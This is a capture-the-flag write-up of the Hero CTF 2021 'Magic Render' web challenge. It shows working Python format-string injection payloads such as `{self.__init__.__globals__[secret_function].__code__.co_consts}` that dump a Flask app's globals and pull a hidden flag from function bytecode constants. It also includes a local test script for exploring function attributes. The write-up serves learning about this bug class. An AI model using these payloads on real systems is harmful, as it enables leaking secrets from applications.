 # Magic Render
This was a web challenge in the Hero CTF 2021.

https://www.heroctf.fr/challenges

![Magic Render Challenge](media/magic-render-chal.png)

Clicking the link gives us this page:
![Magic Render Page](media/magic-render-page.png)

You can enter a title and body and you'll get back an html page with your title and body inserted.

I tried various special characters until I saw that **{}** in the body causes this error.

`Something went wrong, sorry! It's only the alpha version !`

After some searching, I found this online: https://podalirius.net/articles/python-format-string-vulnerabilities/

Finding this page was key to solving this challenge.  No way would I have done so without it.


I tried an example from that page:

```{self.__init__.__globals__}```

and got (newlines added for readability):

```
{'__name__': '__main__', '__doc__': None, '__package__': None,
'__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f5107b17518>,
'__spec__': None, '__annotations__': {}, '__builtins__': , '__file__': 'app.py',
'__cached__': None, 'Flask': , 'render_template': , 'request': , 'FlaskView': ,
'route': , 'dis': , 'app': , 'port': 8050, 'secret_function': , 'App': }
```

Notice there is a secret_function!

At first I tried to access it like this:

```{self.__init__.__globals__.secret_function}```

but got back the error.  Eventually I learned that I needed to use brackets since `__globals__` is a dictionary.

```{self.__init__.__globals__[secret_function]}```

But that just gives back an empty page.

In hindsight, that makes sense since that object must not have a string representation or else it would've shown it to us when we dumped out `__globals__`.

If I try to call this function:

`{self.__init__.__globals__[secret_function]()}`

I get back an error.

At this point, I didn't know to do.

I copied some example code from the above page and hacked on it a bit so I could play around with this locally.

```
import sys

def secret_function():
    flag = 'wow'
    return flag

class TEST():
    def __init__(self):
        self.testValue = 'test'

    def renderHTML(self, templateHTML, text):
        return (templateHTML.format(self=self, text=text))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = TEST()
        print(a.renderHTML(sys.argv[1], 'foo'))

```

I could then call this locally like:

`python3 crack.py '{self.__init__.__globals__}'`

and got this output:
```
{'__name__': '__main__', '__doc__': None, '__package__': None,
'__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x10ebb0040>,
'__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>,
'__file__': 'crack.py', '__cached__': None, 'sys': <module 'sys' (built-in)>,
'secret_function': <function secret_function at 0x10ede2790>, 'TEST': <class '__main__.TEST'>,
'a': <__main__.TEST object at 0x10edf6fd0>}
```

That looks similar enough to the challenge that I thought I was on the right track.

Wanting to know what was hiding inside the function object, I hacked the renderHTML() method to be:

```
    def renderHTML(self, templateHTML, text):
        return dir(self.__init__.__globals__['secret_function'])
```

The dir() method will dump out all of an object's properties.

It printed this:

```
['__annotations__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__',
'__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__',
'__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__',
'__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__',
'__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
```

Not knowing what to look for, I tried several of these until I stumbled upon `__code__`:

```
    def renderHTML(self, templateHTML, text):
        return dir(self.__init__.__globals__['secret_function'].__code__)
```

and got:

```
['__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__',
'__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__',
'__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount',
'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars',
'co_kwonlyargcount', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_posonlyargcount', 'co_stacksize',
'co_varnames', 'replace']
```

**co_varnames** looked interesting so I tried:

```
return self.__init__.__globals__['secret_function'].__code__.co_varnames
```

and got:

`('flag',)`

Then I tried  **co_consts**:
```
return self.__init__.__globals__['secret_function'].__code__.co_consts
```

and got:

`(None, 'wow')`

Armed with this, I was ready to return to the challenge.

When I submit this for the body:

`{self.__init__.__globals__[secret_function].__code__.co_varnames}`

it returned:

`('flag',)`

Finally, I submitted:

`{self.__init__.__globals__[secret_function].__code__.co_consts}`

and got:

`(None, 'Hero{l34k_my_byt3c0d3zzzzzz}')`

Again, I got lucky that I found this particular page and that I happened find my way through the maze of properties to find the one containing the flag.

I definitely learned a lot about all of the properties I never knew were hiding inside Python function objects.



